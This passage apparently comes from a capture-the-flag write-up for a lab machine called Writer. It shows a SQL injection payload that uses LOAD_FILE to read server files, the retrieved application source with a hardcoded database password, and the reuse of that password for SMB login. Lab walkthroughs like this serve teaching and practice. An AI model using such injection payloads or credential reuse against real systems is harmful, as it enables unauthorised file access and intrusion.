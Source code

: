 Intercepting sqlmap with burpsuite via the `--proxy`parameter we were able to modify our payload to read arbitrary files like this:

```
uname=admin'%20UNION%20ALL%20SELECT%20NULL,LOAD_FILE('/var/www/writer.htb/writer.wsgi'),NULL,NULL,NULL,NULL--%20&password=asdf
```

We retrieved numerous files, for example the /var/www/writer.htb/writer.wsgi:

```py
#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

Which lead us to `/var/www/writer.htb/writer/__init__.py`:

```py
[...]
#Define connection for database
def connections():
    try:
        connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
        return connector
    except mysql.connector.Error as err:
        if err.errno == errorcode.ER_ACCESS_DENIED_ERROR:
            return ("Something is wrong with your db user name or password!")
        elif err.errno == errorcode.ER_BAD_DB_ERROR:
            return ("Database does not exist")
        else:
            return ("Another exception, returning!")
    else:
        print ('Connection to DB is ready!')

[...]
```

Inside of it we found `ToughPasswordToCrack` which we could use as the password for SMB with the user `kyle` (which we got from /etc/passwd).

## User

The `__init__.py` allowed us also to get a further understanding of the application running on the server.

